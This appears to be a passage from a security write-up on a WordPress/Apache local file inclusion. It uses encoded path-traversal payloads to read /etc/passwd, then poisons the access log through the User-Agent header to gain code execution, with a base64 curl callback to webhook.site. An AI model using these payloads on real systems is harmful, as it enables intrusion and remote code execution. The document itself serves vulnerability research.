 
**Debug**:
{{< figure src="debug2.png" caption="Debugger with valid payload" >}}

**Result**:

{{< figure src="result1.png" caption="Successful LFI result" >}}

**Explanation**:

`/x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/etc/passwd?` after decoding becomes `/x/wp-activate.php/..///..///..///..///../etc/passwd?`

We use this string to trick Apache so that Apache does not detect Document Root traversal. If we use `/x/wp-activate.php/../../../../../etc/passwd?` Apache will detect the Document Root traversal.

`///` is still accepted as equivalent to `/`, for example:

```bash
w41bu1@22NS088:~$ ls /////////
bin  boot  cdrom  dev  etc  home  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  swap.img
```

### Log poisoning → LFI → RCE

#### Step 1

Send a request with PHP code placed in the `User-Agent` header

```http {hl_lines=[3]}
GET / HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu;<?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?> Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```

#### Step 2

Send a request with the LFI payload pointing to `/var/log/apache2/other_vhosts_access.log`

```http
GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/var/log/apache2/other_vhosts_access.log? HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
```